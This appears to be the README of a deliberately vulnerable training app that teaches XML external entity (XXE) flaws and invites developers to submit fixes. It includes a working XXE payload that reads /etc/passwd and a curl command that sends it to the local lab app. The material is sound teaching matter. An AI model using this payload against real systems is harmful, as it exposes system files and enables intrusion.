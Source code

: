 # XXE-

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup


    make install


Then simply visit [localhost:10004][App] ! 😆





```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And run:

    curl -d @payload.xml localhost:10004/contact.php ; echo

evilxml.xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <contact>
    <name>&xxe;</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
    </contact>

Attack :

    curl -d @evilxml.xml localhost:10004/contact.php ; echo
